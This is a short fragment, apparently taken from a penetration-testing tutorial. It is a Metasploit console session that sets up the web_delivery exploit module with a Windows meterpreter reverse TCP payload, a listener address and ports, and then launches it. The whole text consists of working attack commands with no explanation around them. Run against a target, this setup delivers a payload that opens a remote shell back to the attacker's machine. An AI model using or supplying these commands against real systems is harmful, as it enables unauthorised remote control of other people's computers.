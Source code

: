 
    msf > use exploit/multi/script/web_delivery
    
    msf exploit(web_delivery) > set target 2
    target => 2

    msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp

    msf exploit(web_delivery) > set lhost 192.168.1.101
    lhost => 192.168.1.101
    
    msf exploit(web_delivery) > set lport 6666
    lport => 6666

    msf exploit(web_delivery) > set SRVPORT 8081
    SRVPORT => 8081

    msf exploit(web_delivery) > set uripath /
    uripath => /
    
    msf exploit(web_delivery) > exploit
